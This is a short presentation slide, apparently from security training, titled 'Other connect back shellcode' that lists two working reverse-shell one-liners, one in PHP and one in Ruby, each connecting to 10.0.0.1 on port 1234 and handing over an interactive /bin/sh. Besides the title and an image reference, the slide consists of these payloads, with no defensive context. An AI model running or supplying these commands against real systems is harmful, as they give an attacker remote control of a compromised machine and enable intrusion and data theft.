

# Other connect back shellcode
(non asm)
PHP
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
Ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'